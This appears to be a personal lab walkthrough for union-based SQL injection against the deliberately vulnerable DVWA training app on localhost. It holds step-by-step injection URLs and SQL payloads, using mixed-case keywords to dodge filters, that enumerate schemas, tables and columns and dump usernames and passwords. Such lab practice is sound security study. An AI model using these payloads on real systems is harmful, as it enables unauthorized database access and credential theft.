 ### Extract database name
```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,schema_name,0x7c)%20fRoM%20information_schema.schemata--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
```

![[DVWA_LOW_DB_NAME.png]]

### Extract tables from database
```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,table_name,0x7c)%20fRoM%20information_schema.tables%20wHeRe%20table_schema=%27dvwa%27--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,table_name,0x7c) fRoM information_schema.tables wHeRe table_schema='dvwa'
```

![[DVWA_LOW_TABLENAME.png]]

### Extract column name from database
```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,column_name,0x7c)%20fRoM%20information_schema.columns%20where%20table_schema=%27dvwa%27--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema='dvwa'
```

or

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,column_name,0x7c)%20fRoM%20information_schema.columns%20where%20table_schema=database()--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema=database()
```
![[DVWA_LOW_COLUMNNAME.png]]
Note: here column name can be from different table as well **comment_id** and **comment** is from **guestbook** table
So Craft payload accordingly for dumping full data

### EXTRACT data from table
```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c)%20fRoM%20users--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c) fRoM users
```

![[DVWA_LOW_DATA_DUMP.png]]